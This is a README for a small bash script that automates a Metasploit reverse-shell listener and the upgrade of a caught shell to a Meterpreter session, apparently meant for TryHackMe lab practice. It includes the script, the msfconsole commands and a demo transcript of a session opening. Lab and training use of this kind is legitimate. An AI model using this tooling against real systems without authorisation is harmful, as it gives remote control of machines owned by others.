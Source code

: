 # akrech-reverse-shell-listener


█░█ █▀█ █▀▀ █▀█ ▄▀█ █▀▄ █▀▀   █▄█ █▀█ █░█ █▀█   █▄░█ █▀█ █▀█ █▀▄▀█ ▄▀█ █░░  
█▄█ █▀▀ █▄█ █▀▄ █▀█ █▄▀ ██▄   ░█░ █▄█ █▄█ █▀▄   █░▀█ █▄█ █▀▄ █░▀░█ █▀█ █▄▄  

█▀█ █▀▀ █░█ █▀▀ █▀█ █▀ █▀▀ ▄▄ █▀ █░█ █▀▀ █░░ █░░  
█▀▄ ██▄ ▀▄▀ ██▄ █▀▄ ▄█ ██▄ ░░ ▄█ █▀█ ██▄ █▄▄ █▄▄  

█ █▄░█ ▀█▀ █▀█   ▄▀█
█ █░▀█ ░█░ █▄█   █▀█

█▀▄▀█ █▀▀ ▀█▀ █▀▀ █▀█ █▀█ █▀█ █▀▀ ▀█▀ █▀▀ █▀█  
█░▀░█ ██▄ ░█░ ██▄ █▀▄ █▀▀ █▀▄ ██▄ ░█░ ██▄ █▀▄  

█▀ █░█ █▀▀ █░░ █░░
▄█ █▀█ ██▄ █▄▄ █▄▄

please read carefully, if you havn't any idea about "how to upgrade a normal reverse-shell to a meterpreter shell"



It's the first tool that I had made with bash scripting.
a very simple but useful(maybe) tool for tryhackme users.

#tested on kali-linux

#PROCESS
git clone https://github.com/a-k-r-e-c-h/akrech-rev-shell
$ cd akrech-rev-shell
$ chmod +x akrech.sh
$ ./akrech.sh                <-----#use "nano akrech.sh" if you want's to change the exploit or the IP/network interface.


[note]
***move/copy "akrech.sh" to "/bin" to access it from anywhere on your terminal***   <---$ mv akrech.sh /bin --->



<----after getting a shell successfully--->
ENTER(1) --- "background"
ENTER(2) --- "sessioions -u 1"     <---I used (1) for session 1...else use your sessions id...view it by enter"sessions">

#wait a while
#if everything works fine...then you are gonna get a meterpreter session...check it by ENTER "sessions"

ENTER(3) --- sessions -i 2        <---you should get a meterpreter shell successfully--->

<<<<<<<----------------------------------------------------------------------->>>>>>>
█▀▀▄ █▀▀ █▀▄▀█ █▀▀█ 
█░░█ █▀▀ █░▀░█ █░░█ 
▀▀▀░ ▀▀▀ ▀░░░▀ ▀▀▀▀


┌──(root💀kali)-[/home/kali/akrech-rev-shell]
└─# ./akrech.sh   
 


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝
 
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      
[*] Using configured payload generic/shell_reverse_tcp
lhost => tun0
lport => 4444
[*] Started reverse TCP handler on 10.8.217.33:4444 
[*] Command shell session 1 opened (10.8.217.33:4444 -> 10.8.217.33:39094) at 2021-09-07 13:35:34 -0400

background

Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type             Information  Connection
  --  ----  ----             -----------  ----------
  1         shell sparc/bsd               10.8.217.33:4444 -> 10.8.217.33:39094 (10.8.217.33)

msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.8.217.33:4433 
[*] Sending stage (984904 bytes) to 10.8.217.33
[*] Meterpreter session 2 opened (10.8.217.33:4433 -> 10.8.217.33:41528) at 2021-09-07 13:36:12 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 



<<<<<<<------------------------------------------------------------------------->>>>>>

*akrech   ---a simple metasploit automated reverse-shell-listener tool written in bash.
*this tool is made for time saving & day-to-day usage.
*metasploit has must be installed to ran this script on your machine.
*found me on tweeter-- https://twitter.com/a_k_r_e_c_H

#!/bin/bash

 
echo -e " \e[91m


░█████╗░██╗░░██╗██████╗░███████╗░█████╗░██╗░░██╗
██╔══██╗██║░██╔╝██╔══██╗██╔════╝██╔══██╗██║░░██║
███████║█████═╝░██████╔╝█████╗░░██║░░╚═╝███████║
██╔══██║██╔═██╗░██╔══██╗██╔══╝░░██║░░██╗██╔══██║
██║░░██║██║░╚██╗██║░░██║███████╗╚█████╔╝██║░░██║
╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚═╝╚══════╝░╚════╝░╚═╝░░╚═╝"
echo -e " \e[5m
                       git- a-k-r-e-c-h
                       mail- itz.a.k.r.e.c.h@gmail.com
                      "

msfconsole -q -x " use ```exploit/multi/handler```;    <---change this, if you wants to set another module--->
  set lhost ```tun0``` ;                               <---change this, if you wants to set another IP/network interface---> 
   set lport ```4444``` ;                              <---change this, if you wants to listen on another port--->
    exploit ;"
